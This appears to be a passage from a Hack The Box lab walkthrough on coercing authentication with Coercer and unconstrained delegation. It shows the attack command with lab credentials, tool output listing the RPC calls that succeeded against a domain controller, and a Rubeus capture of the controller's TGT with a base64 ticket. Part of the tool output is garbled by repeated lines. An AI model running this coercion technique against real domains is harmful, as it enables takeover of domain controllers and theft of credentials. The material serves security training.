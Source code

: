 ```shell-session
LeDaav@htb[/htb]$ Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local

       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v1.6
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[dc1.eagle.local] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication to ws001.eagle.local ...
   [>] Pipe '\PIPE\lsarpc' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... rpc_s_access_denied
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 4) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcDecryptFileSrv' (opnum 5) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryUsersOnFile' (opnum 6) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryRecoveryAgents' (opnum 7) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 12) ... ERROR_BAD_NETPATH (Attack has worked!)
   [>] Pipe '\PIPE\netdfs' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsAddStdRoot' (opnum 12) ... rpc_s_access_denied (Attack should have worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...    [>] Pipe '\PIPE\spoolss' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\spoolss' targeting 'MS-RPRN::RpcRemoteFindFirstPrinterChangeNotificationEx' (opnum 65) ... rpc_s_access_denied (Attack should have worked!)

[+] All done!

```

![Coercer to DC1](https://academy.hackthebox.com/storage/modules/176/A11/Coercer.png)

Now, if we switch to WS001 and look at the continuous output that `Rubeus` provide, there should be a TGT for DC1 available:

  Coercing Attacks & Unconstrained Delegation

```powershell-session
[*] 18/12/2022 22.55.52 UTC - Found new TGT:

  User                  :  DC1$@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.21
  EndTime               :  19/12/2022 09.30.21
  RenewTill             :  24/12/2022 09.28.39
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFdDCCBXCgAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0    GwtFQUdMRS5MT0NBTKOCBDowggQ2oAMCARKhAwIBAqKCBCgEggQkv8ILT9IdJgNgjxbddnICsd5quqFnXS7m7YwJIM/lcwLy4SHI
i1iWbvsTiu078mz28R0sn7Mxvg2oVC7NTw+b2unvmQ3utRLTgaz02WYnGWSBu7gxs+Il/0ekW5ZSX3ESq0AGwPaqUcuWSFDNNfOM
ws/8MlkJeFSFWeHwJL7FbzuCjZ2x/6UUl2IOYq0Ozaf3R+rDJQ6LqpDVAet53IoHDugduBfZoDHTZFntRAoYrmAWdcnFdUEpyZGH    Kj6i2M0TyrxUp3nq022BNB6v+sHgH3SWsMNiba+TYaeRdjiM2nVjhGZTXDuro9rLkYFk1HPXuI/d0RfzVuq9Hh5hVCZRwcM3V2BN
```